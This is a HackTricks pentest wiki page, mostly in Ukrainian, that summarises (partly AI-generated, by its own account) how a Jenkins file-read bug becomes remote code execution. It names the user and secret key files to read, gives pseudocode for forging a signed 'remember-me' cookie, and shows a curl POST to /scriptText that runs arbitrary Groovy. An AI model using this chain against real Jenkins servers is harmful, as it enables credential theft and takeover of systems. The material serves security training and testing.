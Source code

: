 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому блозі можна знайти чудовий спосіб перетворити вразливість Local File Inclusion в Jenkins на RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Це підсумок, створений штучним інтелектом, частини посту, де зловживання створенням довільного cookie використовується для отримання RCE, зловживаючи читанням локальних файлів, поки я не матиму часу створити підсумок самостійно:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" має бути увімкнено (налаштування за замовчуванням).
* **Access Levels:** Зловмисник потребує загальних/читальних дозволів.
* **Secret Access:** Можливість читати як бінарний, так і текстовий вміст з ключових файлів.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Отримати конфігурацію користувача та секрети з `$JENKINS_HOME/users/*.xml` для кожного користувача, щоб зібрати:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Витягти криптографічні ключі, що використовуються для підписування cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Додає одну годину до поточного часу
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Перетворити головний ключ у формат ключа AES128
decrypted = AES.decrypt(macFile, key)  // Розшифрувати .mac файл
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Обчислити HMAC, використовуючи токен і MAC ключ
tokenSignature = bytesToHexString(mac)  // Перетворити MAC у шістнадцятковий рядок
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 кодувати дані cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Зробити запит до `/crumbIssuer/api/json`, щоб отримати `Jenkins-Crumb`.
* Захопити `JSESSIONID` з відповіді, який буде використано разом з cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy скрипт може бути використаний для виконання команд на рівні системи або інших операцій у середовищі Jenkins.

Приклад команди curl демонструє, як зробити запит до Jenkins з необхідними заголовками та cookie для безпечного виконання довільного коду.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
